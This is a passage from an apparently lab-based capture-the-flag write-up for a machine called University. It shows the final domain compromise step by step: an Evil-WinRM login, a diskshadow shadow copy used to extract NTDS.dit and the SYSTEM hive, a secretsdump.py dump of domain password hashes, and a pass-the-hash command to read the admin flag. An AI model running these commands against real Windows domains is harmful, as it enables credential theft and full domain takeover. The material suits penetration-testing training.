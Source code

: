 We fire up Evil-WinRM as Brose.W, drop diskshadow `.dsh` script, spin up a shadow copy, robocopy the NTDS.dit like it’s Hot Wheels. Download them, feed them to `secretsdump.py`, and it’s raining domain hashes.

```console
$ evil-winrm -i 10.10.11.39 -u 'university.htb\brose.w' -p 'v3ryS0l!dP@sswd#X'

*Evil-WinRM* PS C:\Users\Brose.W\Documents> cat vss.dsh
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:

*Evil-WinRM* PS C:\Users\Brose.W\Documents> diskshadow /s C:\Users\Brose.W\Documents\vss.dsh

The shadow copy was successfully exposed as z:\.

*Evil-WinRM* PS C:\Users\Brose.W\Documents> robocopy /B Z:\Windows\NTDS .\ntds.dit
*Evil-WinRM* PS C:\Users\Brose.W\Documents> ls
    Directory: C:\Users\Brose.W\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/23/2024   3:01 AM       16777216 ntds.dit
-a----       12/23/2024   1:14 PM            134 vss.dsh

*Evil-WinRM* PS C:\Users\Brose.W\Documents> download ntds.dit
*Evil-WinRM* PS C:\Users\Brose.W\Documents> reg save HKLM\SYSTEM SYSTEM.SAV
*Evil-WinRM* PS C:\Users\Brose.W\Documents> download SYSTEM.SAV

$ secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x7704a47762a8cd07d2922fc3e97e02a4
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 53baa9d0678f975750cdfcfc8b9e6f42
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e63413bab01a0b8820983496c0be3a9a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:2522eb84c83b5e9ffde18045be5b9e59:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:41c4599e48661690fa6538fe96d366de:::

<SNIP>
```

Final move? We got the Administrator hash in our hands, meaning it is Pass-the-Hash time. We SMB to the DC, grab root.txt, sit back, sip whatever beverage hackers sip while the domain collapses in slow motion.

```console
$ nxc smb 10.10.11.39 -u 'Administrator' -H 'e63413bab01a0b8820983496c0be3a9a' -x 'cat C:\Users\Administrator\Desktop\root.txt'
```

Boom. University.HTB? Ours. Every ticket stolen, every hash cracked, every default password abused. The network? Toast. The flags? Collected. The lesson? One tiny slip in AD, one exposed secret, and the kingdom crumbles. Chaos achieved, mission complete.